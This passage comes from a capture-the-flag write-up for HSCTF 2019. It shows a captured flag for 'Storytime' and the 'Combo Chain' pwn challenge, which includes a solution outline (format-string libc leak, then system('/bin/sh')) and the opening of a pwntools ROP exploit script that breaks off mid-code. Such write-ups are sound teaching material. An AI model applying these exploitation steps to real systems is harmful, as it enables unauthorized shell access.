 ```
$ python main.py r
...
[*] Switching to interactive mode
$ cat flag
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
```

flag: `hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}`

# Combo Chain

## Problem

Written by: Ptomerty

I've been really into Super Smash Brothers Melee lately...

`nc pwn.hsctf.com 2345`

libc SHA-1: 238e834fc5baa8094f5db0cde465385917be4c6a libc.so.6 libc6_2.23-0ubuntu11_amd64

6/3/19 7:35 AM: Binary updated, SHA-1: 0bf0640256566d2505113f485949ec96f1cd0bb9 combo-chain

[combo-chain](/blog/2019-06-08-hsctf-writeup/Combo Chain/combo-chain)

[combo-chain.c](/blog/2019-06-08-hsctf-writeup/Combo Chain/combo-chain.c)

## Solution

This is similar to [Storytime](#storytime), but we don't have access to the `write` function. The solution is to write a format string into bss using the `gets` function and then leak libc base address using `printf` as the return address for the `main` function points to libc. After that, just call `system` with `/bin/sh` to get shell. (The [libc](https://libc.blukat.me/?q=system%3A390&l=libc6_2.23-0ubuntu11_amd64) version is determined through leaks.)

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './combo-chain'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

if context.bits == 64:
  r = process(['ROPgadget', '--binary', BINARY])
  gadgets = r.recvall().strip().split('\n')[2:-2]
  gadgets = map(lambda x: x.split(' : '),gadgets)
  gadgets = map(lambda x: (int(x[0],16),x[1]),gadgets)
  r.close()

  pop_rdi = 0
  pop_rsi_r15 = 0
  pop_rdx = 0

  for addr, name in gadgets:
    if 'pop rdi ; ret' in name:
      pop_rdi = addr
    if 'pop rsi ; pop r15 ; ret' in name:
      pop_rsi_r15 = addr
    if 'pop rdx ; ret' in name:
      pop_rdx = addr
```